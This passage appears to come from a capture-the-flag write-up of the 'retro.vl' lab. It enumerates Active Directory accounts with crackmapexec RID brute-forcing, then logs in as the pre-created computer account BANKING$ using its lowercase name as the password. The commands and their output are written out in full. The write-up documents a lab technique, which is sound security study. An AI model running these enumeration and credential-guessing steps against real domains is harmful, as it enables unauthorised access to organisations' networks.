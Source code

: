 ## Pre-created computer account

After doing some research on pre-created computer accounts I found a great [blog post](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts) by `TrustedSec` explaining how to abuse pre-created computer accounts.

### Looking for pre-created computer account

From both the message and blog post it's clear that we are looking for a specific computer account with appropriate attributes set. We can use `crackmapexec` with the `--rid-brute` flag again.

```
➜  retro crackmapexec smb 10.10.106.112 -u 'trainee' -p 'trainee' --rid-brute
SMB         10.10.106.112   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112   445    DC               [+] retro.vl\trainee:trainee 
SMB         10.10.106.112   445    DC               [+] Brute forcing RIDs
.
.
.
SMB         10.10.106.112   445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.10.106.112   445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.10.106.112   445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.106.112   445    DC               1104: RETRO\trainee (SidTypeUser)
SMB         10.10.106.112   445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.10.106.112   445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.10.106.112   445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.10.106.112   445    DC               1109: RETRO\tblack (SidTypeUser)
```

This looks promising. We have found two domain computer accounts. One is `DC$` and the second is `BANKING$`. As the article mentioned above suggests, pre-created computer accounts with the `Assign this computer account as a pre-Windows 2000 computer` checkmark, would have the password for the computer account the same as the computer account name in lowercase. So if all attributes are set correctly, we should be able to authenticate as the `BANKING$` computer account using `banking` as the password.

Let's check with `crackmapexec`.

```
➜  retro crackmapexec smb 10.10.106.112 -u 'BANKING$' -p 'banking'    
SMB         10.10.106.112   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112   445    DC               [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
➜  retro crackmapexec smb 10.10.106.112 -u 'BANKING$' -p 'bankings'
SMB         10.10.106.112   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112   445    DC               [-] retro.vl\BANKING$:bankings STATUS_LOGON_FAILURE
```

As we can see the we were able to successfully authenticate as the `BANKING$` computer account. We can confirm that by using a wrong password and observe the different messages that are provided. In case of successful authentication we get `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` instead of `STATUS_LOGON_FAILURE`.
